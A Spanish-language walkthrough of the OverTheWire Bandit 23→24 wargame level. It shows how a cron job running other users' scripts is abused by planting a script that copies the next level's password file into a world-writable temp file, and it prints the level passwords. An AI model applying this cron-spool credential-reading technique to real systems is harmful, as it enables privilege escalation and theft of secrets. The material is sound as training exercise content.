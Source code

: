 # Level 23 - 24
---
## Objetivo 

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel 

```
Server  : **bandit.labs.overthewire.org**
User    : **bandit23**
Pasword : **QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G**
Puerto  : 2220 
```

---
## Solución 

**Primero se accede al servidor**
```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```
**Contraseña de usuario**
```
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```

**Después se hace lo siguiente en la consola**

```bash
ls -la /etc/cron.d
# -rw-r--r--   1 root root   120 Apr 23 18:04 cronjob_bandit22
# -rw-r--r--   1 root root   122 Apr 23 18:04 cronjob_bandit23
# -rw-r--r--   1 root root   120 Apr 23 18:04 cronjob_bandit24
# -rw-r--r--   1 root root    62 Apr 23 18:04 cronjob_bandit25_root
cat /etc/cron.d/cronjob_bandit24
# @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
# * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
cat /usr/bin/cronjob_bandit24.sh
# #!/bin/bash
# myname=$(whoami)
# cd /var/spool/$myname/foo || exit 1
# echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
# for i in * .*;
# do
#    if [ "$i" != "." -a "$i" != ".." ];
#    then
#        echo "Handling $i"
#        owner="$(stat --format "%U" ./$i)"
#        if [ "${owner}" = "bandit23" ]; then
#            timeout -s 9 60 ./$i
#        fi
#        rm -rf ./$i
#    fi
# done

mkdir /tmp/rbctir
cd /tmp/rbctir
echo "cat /etc/bandit_pass/bandit24 > /tmp/rbctir/password" > ctir.sh
cat ctir.sh
# cat /etc/bandit_pass/bandit24 > /tmp/rbctir/password
chmod +x ctir.sh
touch password
chmod 666 password
cp ctir.sh /var/spool/bandit24/foo
cat password
```

**Resultado final**

``` bash
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

---
## Notas Adicionales 

|**Comando** | **Descripción** |
|:---------:|:-------------|
| CP |sirve para copiar un archivo o carpeta trabajando en la línea de comandos|
|chmod| se usa para cambiar el modo de acceso de un archivo.
|touch| se usa principalmente para crear archivos vacíos y cambiar marcas de tiempo de archivos o carpetas.
|mkdir | sirve para crear nuevos directorios 

---
## Referencias 
[Comando cp de Linux. Un par de trucos útiles – Victorhck in the free world](https://victorhckinthefreeworld.com/2017/07/06/comando-cp-de-linux-un-par-de-trucos-utiles/)
[Comando chmod en Linux con ejemplos – Barcelona Geeks](https://barcelonageeks.com/comando-chmod-en-linux-con-ejemplos/)
[Cómo Usar El Comando Touch De Linux + Ejemplos (hostinger.es)](https://www.hostinger.es/tutoriales/usar-comando-touch-linux-ejemplos)
[Cómo usar el comando mkdir y rmdir (ayudalinux.com)](https://ayudalinux.com/como-usar-el-comando-mkdir/)
